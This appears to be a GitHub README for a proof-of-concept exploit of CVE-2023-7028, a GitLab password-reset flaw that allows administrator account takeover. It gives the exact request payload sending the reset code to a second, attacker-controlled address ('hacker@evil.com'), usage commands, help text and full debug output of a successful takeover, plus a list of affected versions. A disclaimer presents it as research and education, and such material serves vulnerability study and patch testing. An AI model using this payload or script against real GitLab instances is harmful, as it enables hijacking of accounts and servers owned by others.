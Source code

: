 # CVE-2023-7028 | Account-Take-Over Gitlab

## Disclamer
This code is a proof of concept of the vulnerability, I'm not pushing anyone to use it on gitlab instances they don't own.  
This tool has been developed for research and educational purposes only and I will not be held responsible for any use you may make of it.

## Description: 

CVE-2023-7028 refers to an Account-Take-Over vulnerability that allows users to take control of the gitlab administrator account without user interaction.

The vulnerability lies in the management of emails when resetting passwords. An attacker can provide 2 emails and the reset code will be sent to both.   
It is therefore possible to provide the e-mail address of the target account as well as that of the attacker, and to reset the administrator password.  
*(Gitlab points out that 2-factor authentication prevents this vulnerability from being exploited, since an attacker, even after resetting the password, will not be able to log in.)*  

This vulnerability was discovered by [asterion04](https://hackerone.com/asterion04)

## Payload:
Here's an example payload
```
user[email][]=my.target@example.com&user[email][]=hacker@evil.com
```

## POC:

##### Method 1: Using temp email
```bash
python3 ./CVE-2023-7028.py -u https://gitlab.example.com/ -t my.target@example.com

[DEBUG] Getting temporary mail
[DEBUG] Scrapping available domains on 1secmail.com
[DEBUG] 8 domains found
[DEBUG] Temporary mail: 6grp7ert9y@laafd.com
[DEBUG] Getting authenticity_token ...
[DEBUG] authenticity_token = bc91lpzwTOaY9dg5SWjLvvDDb61j6ZunCX4DXYlSnWz9Y3zK35SPiLNShhrDrPVDgY_AzQjzpD5qVt2WXeolog
[DEBUG] Sending reset password request
[DEBUG] Emails sended to my.target@example.com and hacker@evil.com !
[DEBUG] Waiting mail, sleeping for 7.5 seconds
[DEBUG] Getting link using temp-mail | Try N°1 on 5
[DEBUG] Getting last mail for 6grp7ert9y@laafd.com
[DEBUG] 1 mail(s) found
[DEBUG] Reading the last one
[DEBUG] Generating new password
[DEBUG] Getting authenticity_token ...
[DEBUG] authenticity_token = RN6gypVz7Zxtu2zRsJmKPsDHNumIH_UPvdn7aQoWRBnUcqmW1hcu8kYcMvI6XbTDsYuZieMFypbe8SWi3q781w
[DEBUG] Changing password to l3mG2v2XN4UBzbN18ZkW
[DEBUG] CVE_2023_7028 succeed !
        You can connect on https://gitlab.example.com/users/sign_in
        Username: my.target@example.com
        Password: l3mG2v2XN4UBzbN18ZkW
```

##### Method 2: Using evil email
```bash
python3 ./CVE-2023-7028.py -u https://gitlab.example.com/ -t my.target@example.com -e hacker@evil.com

[DEBUG] Getting authenticity_token ...
[DEBUG] authenticity_token = 1Yt1EUeWSL-oiSV7v1Z6ghdCDG3w0FFCQB8Uc5B5GAodVNJ26OlPT8HtYYleGXB9F0otas3gnHOtRfhFall8pQ
[DEBUG] Sending reset password request
[DEBUG] Emails sended to my.target@example.com and hacker@evil.com !
        Input link received by mail: https://gitlab.example.com/users/password/edit?reset_password_token=U8PSU7DXdebdTD3GjMiX
[DEBUG] Generating new password
[DEBUG] Getting authenticity_token ...
[DEBUG] authenticity_token = N7gs43C9ZMxdniA9UEzzfH2Rlhgejt75M1Kw88vaarP_Z4uE38JjPDT6ZM-xA_mDfZm3HyO-E8jeCFzFMfoOHA
[DEBUG] Changing password to EU7XIYjlawjb5tH2jgmU
[DEBUG] CVE_2023_7028 succeed !
        You can connect on https://gitlab.example.com/users/sign_in
        Username: my.target@example.com
        Password: EU7XIYjlawjb5tH2jgmU
```


## Help
```md
$ python3 .\CVE-2023-7028.py -h
usage: CVE-2023-7028.py [-h] -u URL -t TARGET [-e EVIL]

This tool automates CVE-2023-7028 on gitlab

optional arguments:
  -h, --help            show this help message and exit
  -u URL, --url URL     Gitlab url
  -t TARGET, --target TARGET
                        Target email
  -e EVIL, --evil EVIL  Evil email
  -p PASSWORD, --password PASSWORD
                        Password
```

#### Note:
Without the `--evil` option, which specifies the attacker's email address, the script uses a **public temp-mail** to find the password reset link.   
=> *Be careful if this poc is used during a pentest.*



## Versions concerned
- 16.1 to 16.1.5
- 16.2 to 16.2.8
- 16.3 to 16.3.6
- 16.4 to 16.4.4
- 16.5 to 16.5.5
- 16.6 to 16.6.3
- 16.7 to 16.7.1

## References: 
- https://about.gitlab.com/releases/2024/01/11/critical-security-release-gitlab-16-7-2-released/
- https://docs.gitlab.com/ee/install/docker.html
- https://www.cert.ssi.gouv.fr/avis/CERTFR-2024-AVI-0030/
